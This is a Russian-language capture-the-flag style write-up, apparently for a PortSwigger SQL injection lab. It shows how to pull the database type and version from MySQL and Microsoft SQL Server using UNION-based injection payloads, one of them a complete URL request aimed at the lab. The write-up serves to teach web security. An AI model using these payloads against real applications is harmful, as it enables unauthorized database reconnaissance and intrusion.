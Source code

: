 # SQL injection attack, querying the database type and version on MySQL and Microsoft

## Theory

<h3>Запрос типа и версии базы данных</h3>

Разные базы данных предоставляют разные способы запроса своей версии.

Часто приходится пробовать разные запросы, чтобы найти работающий, позволяющий определить как тип, так и версию программного обеспечения базы данных.

[Запросы для определения версии базы данных для некоторых популярных типов баз данных](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_cheatsheet#Database_version)

```
Database type       Query

Microsoft, MySQL    SELECT @@version
Oracle              SELECT * FROM v$version
PostgreSQL          SELECT version()
```

Например, вы можно использовать атаку UNION со следующими входными данными:
```
' UNION SELECT @@version--
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_querying_the_database_type_and_version_on_MySQL_and_Microsoft/assets/1.png)

Выбираем пункт Gifts. Определяем [количество стобцов](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_determining_the_number_of_columns_returned_by_the_query) и какой [тип данных](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_finding_a_column_containing_text) они принимают. Вытаскиваем версию базы данных MySQL. В базе данных MySQL символ комментария другой(#), поэтому мы его изменим. 
```
/filter?category=Lifestyle'UNION+SELECT+NULL,@@version#
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_querying_the_database_type_and_version_on_MySQL_and_Microsoft/assets/2.png)

Отправляем запрос и получаем ответ от приложения.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_querying_the_database_type_and_version_on_MySQL_and_Microsoft/assets/3.png)

